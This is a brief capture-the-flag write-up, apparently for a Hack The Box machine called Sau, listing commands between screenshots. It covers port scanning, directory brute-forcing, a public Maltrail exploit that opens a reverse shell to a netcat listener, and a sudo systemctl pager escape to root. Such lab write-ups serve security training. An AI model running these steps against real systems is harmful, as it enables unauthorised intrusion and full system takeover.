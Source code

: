 # ****Sau****

```bash
rustscan -a 10.10.11.224
```

![image](https://github.com/lufffe/Writeups/assets/90646635/357c3476-3b33-4a07-85e9-ef92ae057edd)

```bash
nmap -A -p 22,55555 10.10.11.224
```

![image](https://github.com/lufffe/Writeups/assets/90646635/3af5ddde-27c9-4e00-a834-936613cc6841)

```bash
gobuster dir -u [http://sau.htb:55555](http://sau.htb:55555/) -w directory-list-2.3-small.txt -t 100 --no-error -b 400,404
```

![image](https://github.com/lufffe/Writeups/assets/90646635/f457fc71-4732-4e6a-bf55-3f1dcdf6e84c)

http://sau.htb:55555/web

![image](https://github.com/lufffe/Writeups/assets/90646635/66832557-c07f-4a20-87c3-69ac57d3880c)

![image](https://github.com/lufffe/Writeups/assets/90646635/4614fdd3-0922-4c4e-abea-b01c1da57303)

![image](https://github.com/lufffe/Writeups/assets/90646635/634e7000-e669-4078-bf87-f8de21d859f5)

https://github.com/spookier/Maltrail-v0.53-Exploit

```bash
nc -lnvp 4455
```

```bash
python exploit.py http://10.10.11.224:55555 10.10.14.8 4455
```

```bash
cat /home/puma/user.txt
```

```bash
sudo -l
```

![image](https://github.com/lufffe/Writeups/assets/90646635/9025966b-3a09-49dc-a8c4-c20c7b870a4a)

```bash
sudo /usr/bin/systemctl status trail.service
```

![image](https://github.com/lufffe/Writeups/assets/90646635/5e0c2624-5350-4ca3-849a-3100a9bfdd25)

```bash
!sh
```

![image](https://github.com/lufffe/Writeups/assets/90646635/7f2633cd-e45d-4cd4-8e8e-03308804b7fb)

```bash
cat /root/root.txt
```
